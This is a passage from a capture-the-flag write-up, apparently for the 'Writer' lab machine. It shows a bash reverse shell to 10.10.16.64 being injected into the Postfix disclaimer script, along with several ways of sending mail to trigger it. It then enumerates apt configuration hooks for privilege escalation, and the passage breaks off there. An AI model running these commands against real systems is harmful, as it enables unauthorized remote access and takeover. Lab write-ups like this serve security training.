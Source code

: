 Obviously we want it to execute a reverse shell, we add it at the top. Since
the file is regularly reset, we'll automate the process':

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.64/9876 0>&1'" |
    cat - /etc/postfix/disclaimer > disclaimer
```

Then execute one of the following scripts to send a mail:

```bash
cp disclaimer /etc/postfix/disclaimer
sendmail -vt < ~/mail.txt
```

```bash
cp disclaimer /etc/postfix/disclaimer
curl -k --url 'smtp://127.0.0.1:25' \
    --mail-from 'kyle@writer.htb' --mail-rcpt 'john@writer.htb' \
    --upload-file mail.txt
```

```bash
cp disclaimer /etc/postfix/disclaimer && python3 mail.py
cat mail.py
# import smtplib

# try:
#     server = smtplib.SMTP('127.0.0.1', 25)
#     server.ehlo()
#     server.sendmail("kyle@writer.htb", "john@writer.htb", """Subject: heyhey\n\noops""")
# except Exception as e:
#     print(e)
# finally:
#     server.quit()
```

## Escalation

```bash
groups
# john management
find / -type f \( -group john -o -group management \) \( -path /sys -o -path /proc \) -prune 2>/dev/null
# /etc/apt/apt.conf.d
```

A straight vector:

```bash
cat /etc/apt/apt.conf.d/15update-stamp
# APT::Update::Post-Invoke-Success {"touch /var/lib/apt/periodic/update-success-stamp 2>/dev/null || true";};
cat /etc/apt/apt.conf.d/20packagekit
# DPkg::Post-Invoke {
# "/usr/bin/test -e /usr/share/dbus-1/system-services/org.freedesktop.PackageKit.service && /usr/bin/test -S /var/run/dbus/system_bus_socket && /usr/bin/gdbus call --system --dest org.freedesktop.PackageKit --object-path /org/freedesktop/PackageKit --timeout 4 --method org.freedesktop.PackageKit.StateHasChanged cache-update > /dev/null; /bin/echo > /dev/null";
# };

# // When Apt's cache is updated (i.e. apt-cache update)
# APT::Update::Post-Invoke-Success {
# "/usr/bin/test -e /usr/share/dbus-1/system-services/org.freedesktop.PackageKit.service && /usr/bin/test -S /var/run/dbus/system_bus_socket && /usr/bin/gdbus call --system --dest org.freedesktop.PackageKit --object-path /org/freedesktop/PackageKit --timeout 4 --method org.freedesktop.PackageKit.StateHasChanged cache-update > /dev/null; /bin/echo > /dev/null";
# };
cat /etc/apt/apt.conf.d/50command-not-found
```